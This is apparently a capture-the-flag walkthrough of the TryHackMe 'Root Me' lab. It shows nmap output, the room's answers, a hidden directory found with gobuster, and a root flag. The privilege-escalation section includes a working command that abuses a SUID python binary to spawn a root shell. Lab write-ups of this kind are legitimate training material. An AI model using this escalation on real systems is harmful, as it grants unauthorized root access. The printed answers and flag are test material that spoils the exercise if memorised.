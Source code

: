 # Root Me

```
export ip=10.10.253.93
``` 

##Nmap Scan

# Nmap 7.91 scan initiated Wed Jan 27 15:43:38 2021 as: nmap -sC -sV -A -O -oN initial 10.10.253.93
Nmap scan report for 10.10.253.93
Host is up (0.064s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 4a:b9:16:08:84:c2:54:48:ba:5c:fd:3f:22:5f:22:14 (RSA)
|   256 a9:a6:86:e8:ec:96:c3:f0:03:cd:16:d5:49:73:d0:82 (ECDSA)
|_  256 22:f6:b5:a6:54:d9:78:7c:26:03:5a:95:f3:f9:df:cd (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: HackIT - Home
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).

Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 199/tcp)
HOP RTT      ADDRESS
1   59.74 ms 10.9.0.1
2   59.06 ms 10.10.253.93

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Wed Jan 27 15:44:04 2021 -- 1 IP address (1 host up) scanned in 25.67 seconds


## Recon

### How many ports are open?

####With **nmap**
```
2 - 22 & 80
```

### What Apache version is running?

####With **nmap**
```
2.4.29
```

### What service is running on port 22?

####With **nmap**
```
ssh
```

### What is the hidden directory?

#### With **gobuster**
```
/panel/
```

## Getting a shell

###user.txt
```

```

## Priv esc

### Which SUID permission file is weird?
```
/usr/bin/python
```

### root.txt

#### website **gtfobins.github.io**
#### command **./python -c 'import os; os.execl("/bin/sh", "sh", "-p")'
**

```
THM{pr1v1l3g3_3sc4l4t10n}
```